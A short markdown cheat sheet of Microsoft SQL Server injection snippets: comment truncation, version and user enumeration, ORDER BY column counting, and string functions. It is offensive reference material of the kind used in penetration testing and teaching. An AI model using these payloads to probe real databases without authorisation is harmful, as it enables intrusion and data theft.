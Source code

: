 layout: page
title: "MSSQL Injection Cheat Sheet"
permalink: /mssqli
---

# Microsoft MSSQLI

### Current Database
```bash
SELECT DB_NAME()
```

### String concatenation: 
You can concatenate together multiple strings to make a single string.
```bash
'foo'+'bar'
```
### Substring: 
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

```bash
SUBSTRING('foobar', 4, 2)`
```

### COMMENTS: You can use comments to truncate a query and remove the portion of the original query that follows your input.
```bash
--comment

/*comment*/
```


### Database version: You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```bash
SELECT @@version
```


### ORDER BY 
```bash
ORDER BY N-- Where N input number 1,2,3,4,5,6,7,8 etc..
```
### Current User	
```bash

SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID

```
